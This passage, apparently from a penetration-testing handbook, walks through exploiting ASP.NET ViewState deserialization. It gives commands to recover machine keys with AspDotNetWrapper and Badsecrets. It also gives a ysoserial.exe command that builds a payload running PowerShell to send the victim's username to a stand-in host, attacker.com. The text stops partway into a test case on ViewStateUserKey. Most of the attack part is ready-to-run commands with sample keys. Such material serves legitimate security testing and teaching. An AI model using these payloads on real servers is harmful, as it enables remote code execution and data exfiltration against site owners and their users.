 ```
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata bcZW2sn9CbYxU47LwhBs1fyLvTQu6BktfcwTicOfagaKXho90yGLlA0HrdGOH6x/SUsjRGY0CCpvgM2uR3ba1s6humGhHFyr/gz+EP0fbrlBEAFOrq5S8vMknE/ZQ/8NNyWLwg== --decrypt --purpose=viewstate  --valalgo=sha1 --decalgo=aes --IISDirPath "/" --TargetPagePath "/Content/default.aspx"

--encrypteddata = {__VIEWSTATE parameter value}
--IISDirPath = {Directory path of website in IIS}
--TargetPagePath = {Target page path in application}
```

For a more detailed description for IISDirPath and TargetPagePath [refer here](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)

Or, with [**Badsecrets**](https://github.com/blacklanternsecurity/badsecrets) (with a generator value):

```bash
cd badsecrets
python examples/blacklist3r.py --viewstate JLFYOOegbdXmPjQou22oT2IxUwCAzSA9EAxD6+305e/4MQG7G1v5GI3wL7D94W2OGpVGrI2LCqEwDoS/8JkE0rR4ak0= --generator B2774415
```

![https://user-images.githubusercontent.com/24899338/227043316-13f0488f-5326-46cc-9604-404b908ebd7b.png](https://user-images.githubusercontent.com/24899338/227043316-13f0488f-5326-46cc-9604-404b908ebd7b.png)

Once a valid Machine key is identified, **the next step is to generate a serialized payload using** [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net)

```
ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName" --path="/content/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="F6722806843145965513817CEBDECBB1F94808E4A6C0B2F2"  --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"
```

If you have the value of `__VIEWSTATEGENERATOR` you can try to **use** the `--generator` parameter with that value and **omit** the parameters `--path` and `--apppath`

![](https://notsosecure.com/sites/all/assets/group/nss_uploads/2019/06/4.2.png)

A successful exploitation of the ViewState deserialization vulnerability will lead to an out-of-band request to an attacker-controlled server, which includes the username. This kind of exploit is demonstrated in a proof of concept (PoC) which can be found through a resource titled "Exploiting ViewState Deserialization using Blacklist3r and YsoSerial.NET". For further details on how the exploitation process works and how to utilize tools like Blacklist3r for identifying the MachineKey, you can review the provided [PoC of Successful Exploitation](https://www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/#PoC).

<br>

### Test Case 6 – ViewStateUserKeys is being used

The **ViewStateUserKey** property can be used to **defend** against a **CSRF attack**. If such a key has been defined in the application and we try to generate the **ViewState** payload with the methods discussed till now, the **payload won’t be processed by the application**.\
You need to use one more parameter in order to create correctly the payload:

